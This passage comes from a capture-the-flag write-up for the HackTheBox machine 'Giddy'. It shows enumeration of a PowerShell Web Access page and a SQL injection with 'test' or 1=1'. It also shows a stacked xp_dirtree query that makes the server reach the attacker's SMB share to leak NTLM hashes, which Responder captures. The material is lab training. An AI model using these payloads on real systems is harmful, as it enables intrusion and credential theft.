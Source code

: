 Accessing http://giddy.htb/remote, we realized that this site can only be accessed via https protocol

![https protocol](https://github.com/joelczk/writeups/blob/main/HTB/Images/Giddy/https_protocol.png)

Accessing https://giddy.htb/remote, we realize that this site is a Windows Server 2016 and its a login page for Windows Powershell Web Access. To login to the site, we would require a set of credentials but we do not have it yet. We would have to enumerate our sites to find the credentails.

Navigating to http://giddy.htb/mvc/Search.aspx, we realize that there is an SQL Injection vulnerability as we are able to dump all the products using the ```test' or 1=1``` as the payload.
![SQL Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Giddy/sql_injection.png)

Since we know that the backend of this machine is Microsoft, we can guess that the database that we are working with would be mssql. 

## Exploit
### SQL Injection
Next, we will try to use stacked queries ```'; use master; exec xp_dirtree '\\10.10.16.6\share';-- -``` to steal NTLM hashes using xp_dirtree. We will then use responder to capture the NTLM hashes

```
┌──(kali㉿kali)-[~]
└─$ sudo responder -wrf --lm -v -I tun0   
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
```